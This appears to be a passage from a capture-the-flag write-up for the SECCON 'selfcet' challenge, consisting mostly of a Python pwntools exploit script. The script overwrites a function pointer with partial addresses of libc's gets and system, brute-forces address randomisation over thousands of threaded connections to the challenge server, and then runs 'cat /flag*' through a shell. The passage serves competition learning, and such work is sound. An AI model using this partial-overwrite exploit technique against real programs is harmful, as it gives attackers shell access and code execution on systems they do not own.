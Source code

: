 ## selfcet

`gets(somewhere)` and then `system(somewhere)`.

```python
from pwn import *
import time, subprocess
from multiprocessing.dummy import Pool
from tqdm import tqdm

context.log_level = 'error'

sleep_time = 0.5


def work(_):
    try:
        # r = process(['docker', 'exec', '-i', 'seccon_selfcet', '/root/xor'], level='error')
        r = remote('selfcet.seccon.games', 9999, level='error')
        time.sleep(sleep_time)

        libc_base = 0

        time.sleep(sleep_time)

        gets_low = (libc_base + 0x805a0) & 0xffffff
        payload = b'\n' + b'\0' * 0x3f + p64(0) + p64(0x404000) + gets_low.to_bytes(3, 'little')
        r.send(payload)
        time.sleep(sleep_time)
        r.send(b'/bin/sh\n')

        system_low = (libc_base + 0x50d60) & 0xffffff
        payload = b'\n' + b'\0' * 0x1f + p64(0) + p64(0x404000) + system_low.to_bytes(3, 'little')
        time.sleep(sleep_time)
        r.send(payload)
        time.sleep(sleep_time)
        r.sendline(b'cat /flag*')
        res = r.recvline()
        print(res)
        open('res.txt', 'ab').write(res + b'\n')
    except:
        r.close()


pool = Pool(20)
n = 10000
list(tqdm(pool.imap(work, range(n)), total=n))
```

# Reverse
